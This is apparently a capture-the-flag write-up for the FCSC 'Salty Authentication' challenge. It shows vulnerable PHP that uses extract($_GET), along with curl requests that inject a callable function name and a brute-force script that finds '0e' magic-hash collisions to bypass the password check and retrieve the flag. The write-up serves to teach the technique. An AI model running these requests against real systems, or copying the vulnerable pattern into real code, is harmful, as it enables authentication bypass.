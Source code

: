 # Salty Authentication
<p align="center">
<img alt="Challenge" src="challenge.png">
</p>

When trying to access the given url, we get the following answer:
```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The secret string is composed of the hostname of the machine concatenated with a random salt.

The script checks if the "password" parameter was provided in the GET request and if it has the same length as the secret string. If these conditions are met, the hash function "fnv164" is applied to the secret string and the "password" parameter, and the two hashes are compared.

Let's read the php doc of the [extract](https://www.php.net/manual/en/function.extract.php) function:

<img alt="Extract php function documentation" src="php_extract.png">

With this function we can control a number of variables in the script.

This allows us to submit, via a GET request, the $password and $salt parameters.

First, we will try to know the length of the hostname returned by the gethostname() function. To do so, we just have to submit an empty $salt, and iterate on the length of $password until the message 'Wrong password'

```console
dqrkk$ for i in {1..100}; do response=$(curl -s "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=$(python -c 'print "A" * '$i'')") && [[ "$response" == *"Wrong password"* ]] && echo "Password length: $i"; sleep 2; done
Password length: 12
```

The hostname has a length of 12 characters.

In order to go further, we need to know the value of the hostname.

For that, we will use a flaw in the script.

Indeed, when the hashes don't match, the script displays the message "Wrong password!", but it also makes an exit($log_attack()).

This gives us the possibility to call a function by controlling the value of $log_attack.

We will send the string gethostname in the parameter, in order to make the script execute this function.

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=AAAAAAAAAAAA&log_attack=gethostname"; echo     
Wrong password!9be4a60f645f
```

Hostname is 9be4a60f645f

At this point, all we have to do is find a $password and $salt values that will satisfy the following conditions:

```php
$secret = "9be4a60f645f" . $salt

strlen($password) === strlen($secret)
$password !== $secret
hash('fnv164', $password) == hash('fnv164', $secret)
```

We must therefore find PHP fnv164 hash collisions.

Searching for 'fnv164 collisions' on google, we find a site explaining that it is possible to generate collisions in hashes if the comparison between the 2 hashes uses == to compare them.

It uses the trick that for PHP a string formated like '0+e[0-9]+' is evaluated as 0.

So '0e1' == '00e2' == '0' == 0


We just need to find two different salt with the same length that generate a hash that match the previous format.

The following script do the job:

```php
// Générer une chaîne de sel aléatoire de longueur variable contenant des chiffres et des lettres
function generateStrings($min_length, $max_length)
{
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'; // Chiffres et lettres autorisés
    $characters_length = strlen($characters);

    for ($i = $min_length; $i <= $max_length; $i++) {
        $combinations = pow($characters_length, $i); // Nombre total de combinaisons

        for ($j = 0; $j < $combinations; $j++) {
            $string = '';
            $index = $j;

            // Convertir l'index en base $characters_length pour générer une chaîne de caractères unique
            for ($k = 0; $k < $i; $k++) {
                $string .= $characters[$index % $characters_length];
                $index = floor($index / $characters_length);
            }

            yield $string;
        }
    }
}

foreach (generateStrings(1, 20)  as $salt) {
    // Concaténation du secret avec le sel
    $secret = "9be4a60f645f" . $salt;

    // Calcul du hash
    $hash = hash('fnv164', ($secret));

    // Vérification que le hash commence par '0e' suivi de chiffre
    if (preg_match('/^0e\d+$/', $hash)) {
        echo "Salt: $salt, Le hash $hash commence par '0e' suivi de chiffre.\n";
    }
}
```

Let's launch it, we obtain:

```console
dqrkk$ php salty.php
Salt: ChI00, Le hash 0e65994470693693 commence par '0e' suivi de chiffres.
Salt: 9iu10, Le hash 0e31697456461001 commence par '0e' suivi de chiffres.
Salt: xQj20, Le hash 0e86686877103172 commence par '0e' suivi de chiffres.
Salt: ChH20, Le hash 0e62314470665024 commence par '0e' suivi de chiffres.
Salt: 9iH20, Le hash 0e42687456548181 commence par '0e' suivi de chiffres.
Salt: xQn30, Le hash 0e78716877040301 commence par '0e' suivi de chiffres.
Salt: xQj40, Le hash 0e86626877102720 commence par '0e' suivi de chiffres.
Salt: xQk40, Le hash 0e89686877126729 commence par '0e' suivi de chiffres.
Salt: xQi50, Le hash 0e90736877189848 commence par '0e' suivi de chiffres.
Salt: xQk50, Le hash 0e89676877126556 commence par '0e' suivi de chiffres.
```

And that's it.

Let's take the first two calculated values.


$password will be 9be4a60f645f9iu10

hash('fnv164', '9be4a60f645f9iu10') = '0e31697456461001'

$secret will be 9be4a60f645fChI00

hash('fnv164', '9be4a60f645fChI00') = '0e65994470693693'

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=ChI00&password=9be4a60f645f9iu10"; echo  
FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}
```

Flag is FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}



